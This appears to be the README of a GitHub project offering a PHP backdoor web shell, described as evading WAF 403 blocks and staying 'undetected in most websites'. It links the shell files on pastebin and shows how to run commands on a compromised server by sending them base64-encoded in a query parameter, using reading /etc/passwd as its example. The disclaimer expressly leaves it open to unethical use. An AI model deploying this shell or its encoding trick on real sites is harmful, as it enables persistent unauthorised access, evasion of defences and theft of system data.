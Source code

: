 # About

This RCE Payload/Backdoor Shell is made to bypass WAF 403 errors. This is also undetected in most websites.

## Pastebin Links
[bloo.php](https://pastebin.com/raw/dYB6V61V) |
[bloopassthru.php](https://pastebin.com/raw/qjF1ECwj)

## Usage

```
bloo.php?bloo=[INSERT BASE64 ENCODED COMMAND]

example: cat /etc/passwd
convert: cat /etc/passwd -> Base64Encode -> Y2F0IC9ldGMvcGFzc3dk

bloo.php?bloo=Y2F0IC9ldGMvcGFzc3dk
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Discalimer
This is made for but *not limited to* ethical purposes. I am not liable to any misusage of this.

## License
[Bloos3rpent](https://twitter.com/blooserpent)
